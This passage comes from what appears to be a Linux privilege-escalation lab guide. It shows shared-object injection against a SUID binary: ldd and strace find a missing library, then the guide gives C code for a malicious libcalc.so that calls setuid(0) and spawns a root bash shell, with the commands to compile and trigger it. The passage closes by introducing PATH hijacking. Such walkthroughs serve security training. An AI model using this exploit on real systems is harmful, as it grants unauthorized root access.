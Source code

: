 To identify a binary that uses shared libraries the ldd tool can be used

#### `ldd /usr/local/bin/suid-so`

Run strace on the SUID file:

#### `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

![](../../../.gitbook/assets/soi2.png)

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

Create the /home/user/.config directory.

Create the file libcalc.c with the following contents:

```text
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```

Compile libcalc.c into /home/user/.config/libcalc.so:

#### `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c` 

Run the SUID executable to get a root shell:

#### `/usr/local/bin/suid-so`

## PATH Environment Variable

The PATH environment variable contains a list of directories where the shell should try to find programs. If a program tries to execute another program, but only specifies the program name, rather than its full \(absolute\) path, the shell will search the PATH directories until it is found. Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.
